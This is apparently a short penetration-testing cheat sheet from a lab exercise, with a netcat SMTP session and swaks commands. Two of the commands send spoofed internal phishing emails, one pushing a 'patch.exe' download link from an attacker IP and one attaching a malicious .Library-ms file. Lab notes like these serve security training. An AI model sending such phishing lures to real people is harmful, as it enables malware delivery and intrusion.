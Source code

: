 ### Netcat interact with smtp server with annoymous login(line by line copy)
```
0.nc -C mail.example.org 25 //Insert a carriage return character (Ctrl+V Ctrl+M)
1.HELO example.com
2.MAIL FROM:bar@example.org
3.RCPT TO:foo@example.com
4.DATA
From: bar@example.org
To: foo@example.com
Subject: Test
Date: Thu, 20 Dec 2012 12:00:00 +0000

Testing
.
5.QUIT
```

### swaks to send email
swaks --to "tharper@victim" --from "rmurray@victim" --ehlo victim --body "Following link is urgent patch link: http://192.168.119.130/patch.exe" --header "Subject:urgent patch" --server 192.168.130.55(email server)

swaks --to jim@relia.com --from maildmz@relia.com --server 192.168.193.189 --attach @/home/kali/Desktop/config.Library-ms --body "Please take a look at the config library file" --header "Subject: Staging Script"

### mail server
```
sudo systemctl restart postfix
```
